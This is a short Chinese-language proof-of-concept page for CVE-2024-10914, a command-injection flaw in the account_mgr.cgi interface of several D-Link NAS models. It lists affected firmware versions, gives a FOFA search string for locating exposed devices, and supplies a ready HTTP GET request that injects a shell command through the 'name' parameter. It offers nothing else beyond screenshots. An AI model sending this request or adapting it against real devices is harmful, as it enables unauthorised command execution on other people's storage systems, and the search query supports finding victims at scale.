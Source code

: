 # D-Link-NAS接口account_mg存在命令执行漏洞(CVE-2024-10914)
D-Link NAS设备 account_mg存在命令执行漏洞

## 影响版本
```java
DNS-320-版本 1.00
DNS-320LW-版本 1.01.0914.2012
DNS-325-版本 1.01和 1.02
DNS-340L-版本 1.08
```

## fofa
```java
app="D_Link-DNS-ShareCenter"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731336110353-da817235-136a-49bd-9e02-241d826321d4.png)

## poc
```java
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731336023387-187f8fb1-9ff9-44a2-8e5d-f7ac5d81b3cc.png)

